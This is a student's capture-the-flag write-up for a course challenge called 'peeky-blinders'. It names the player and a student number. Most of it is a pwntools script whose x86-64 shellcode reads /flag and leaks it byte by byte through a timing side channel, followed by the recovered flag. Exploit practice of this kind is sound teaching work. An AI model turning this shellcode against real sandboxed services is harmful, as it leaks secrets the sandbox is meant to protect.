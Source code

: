 # Player
- Tim Niklas Gruel 1080 2021 2831
- username: realy0sh1

# Writeup: "peeky-blinders"
- story:  Remember peek? Do it again. No output, no write, and no sendfile for you this time, though. Hint: The flag only changes when you spawn a new instance! Hint: The flag matches the following regular expression: softsec\{[0-9a-zA-Z_-]{64}\}
- start docker:
```
docker build -t peeky-blinders .
echo 'softsec{this_is_a_FAKE_flag-this_is_a_FAKE_flag-it_has_numbers_too_12345}' > flag
docker run --rm --mount "type=bind,src=$(pwd)/flag,dst=/flag" --cap-add SYS_ADMIN --security-opt apparmor=unconfined -p 1024:1024 -ti peeky-blinders
nc 127.0.0.1 1024
```
- idea: open file read char, check against guessed, finish if false, wait if we guessed correct:
```python
#!/usr/bin/env python3

import pwn

pwn.context.arch = 'amd64'

possible_values = "0123456789abcdefghijklmnopqrstuvwxyzABZDEFGHIJKLMNOPQRSTUVWXYZ_-}{"
possible_chars = list(possible_values)

# flag are 73 chars
flag = ""

for pos in range(73):
    for char in possible_chars:
        #conn = pwn.remote('127.0.0.1', 1024)
        conn = pwn.remote('tasks.ws24.softsec.rub.de', 33224)

        conn.recvuntil("please enter your (hex-encoded) shellcode, at most 4096 bytes: ".encode())
        
        shellcode = pwn.asm(f'''
            mov rbx, 0x00000067616c662f; # fd_flag = open("/flag", O_RDONLY)
            push rbx;
            mov rax, 2;
            mov rdi, rsp;
            mov rsi, 0;
            syscall;
            
            ;#https://syscalls.mebeim.net/?table=x86/64/x64/latest      
            xor rdx, rdx;
            push rdx; # push 10*8 = 80 Null bytes to the stack
            push rdx;
            push rdx;
            push rdx;
            push rdx;
            push rdx;
            push rdx;
            push rdx;
            push rdx;  
            push rdx;  
            mov rdi, rax;   # fd_flag was is rax, and open want it in rdi
            mov rsi, rsp;   # pointer to one byte buffer on stack
            mov rdx, 73;     # we want to read all 73 bytes of the flag              
            mov rax, 0;     # read is syscall 0
            syscall;

            ;#the bytes of the flag are now on the stack starting at rsp
            mov rax, [rsp + {pos}]
            cmp al, 0x{hex(ord(char))[2:]};   # compare flag of byte (in al) with hardcoded value (this round)
            je iloop;           
            ret;
            iloop:
                jmp iloop;
        ''')

        conn.sendline(shellcode.hex().encode())
        received = conn.recvuntil("Bye!".encode(), timeout=1)

        if received != b'':
            continue
        else:
            flag += char
            print(flag)
            break
```
- flag
```
softsec{jAAGNVr6982jaaHuPneqjKJquE_-abnQSLE4QPd9Oz6EoyInwbDbg5BoJM6AQTdy}
```